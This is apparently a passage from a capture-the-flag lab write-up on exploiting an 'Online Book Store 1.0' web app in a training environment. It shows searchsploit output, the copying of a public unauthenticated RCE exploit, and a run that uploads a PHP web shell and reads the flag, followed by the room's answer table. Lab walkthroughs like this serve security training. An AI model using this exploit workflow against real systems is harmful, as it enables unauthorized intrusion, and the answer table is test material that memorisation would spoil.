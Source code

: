   ![img](https://i.imgur.com/aTEvf6Y.png)

### 5.2

* look for vulnerability:

     ```bash
     searchsploit online book store

     --------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                               |  Path
     --------------------------------------------------------------------------------------------- ---------------------------------
     GotoCode Online Bookstore - Multiple Vulnerabilities                                         | asp/webapps/17921.txt
     Online Book Store 1.0 - 'bookisbn' SQL Injection                                             | php/webapps/47922.txt
     Online Book Store 1.0 - Arbitrary File Upload                                                | php/webapps/47928.txt
     Online Book Store 1.0 - Unauthenticated Remote Code Execution                                | php/webapps/47887.py
     --------------------------------------------------------------------------------------------- ---------------------------------
     Shellcodes: No Results
     ```

* we have a `Unauthenticated Remote Code Execution` let's use this to exploit the application.

* copy the exploit:
     `searchsploit -m php/webapps/47887.py`

* run the exploit:

     ```bash
     python 47887.py http://10.10.18.54
     > Attempting to upload PHP web shell...
     > Verifying shell upload...
     > Web shell uploaded to http://10.10.18.54/bootstrap/img/PQytuI1suX.php
     > Example command usage: http://10.10.18.54/bootstrap/img/PQytuI1suX.php?cmd=whoami
     > Do you wish to launch a shell here? (y/n): y
     RCE $ cat flag.txt
     flag{here}
     ```

### Flag-05

|question|ans|
|---|---|
|Find out the version of the application that is running. What are the name and version number of the application?|[5.1](#51)
|Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine.|`n\a`|
|Use this exploit against the vulnerable machine. What is the value of the flag located in a web directory?|[5.2](#52)|
